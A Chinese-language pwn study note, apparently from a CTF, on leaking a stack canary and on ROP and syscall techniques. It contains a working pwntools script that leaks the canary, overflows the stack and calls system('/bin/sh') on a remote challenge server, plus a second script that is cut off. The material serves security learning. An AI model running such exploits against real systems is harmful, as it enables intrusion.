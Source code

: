 - printf：泄露canary的值[canary](https://blog.csdn.net/AcSuccess/article/details/104115114)

  64位canary有八位，末尾是/00，保证切断字符串

  

- 栈溢出更改函数进程

```
from pwn import *

context(os='linux',arch='amd64',log_level='debug')
content = 0

if content == 1:
    giacomo = process('./rop64')
else:
    giacomo = remote("124.223.158.81", 27004)

def main():
    sh = 0x0000000000404058
    system = 0x401284
    rdi = 0x4011de
    giacomo.sendafter(b'Go Go Go!!!\n',b'a'*0x29)
    giacomo.recvuntil(b'a'*0x28)
    canary = u64(giacomo.recv(numb = 0x8)) - 0x61
    print(hex(canary))
    payload = b'a'*0x28 + p64(canary) +b'a'*8+ p64(rdi) + p64(sh) + p64(system)
    giacomo.send(payload)
    giacomo.interactive()



main()
```



### syscall

- [什么是syscall](https://blog.csdn.net/weixin_43363675/article/details/117944212)

​	rax = 0x3b（不需要gadget）
​	rdi指向"/bin/sh"
​	rsi = 0x0
​	rdx = 0x0

- 如何控制RAX

  call read@plt之后，RAX变为输入的字符。RAx用于存放返回的字符





```
from pwn import *

context(os='linux',arch='amd64',log_level='debug')
content = 0

if content == 1:
    giacomo = process('./syscall')
else:
    giacomo = remote("124.223.158.81", 27005)

def main():
    # gdb.attach(giacomo)
    # pause()
    giacomo.recvuntil(b'first!\n')
    gift = giacomo.recvuntil(b'\n',drop = True)
```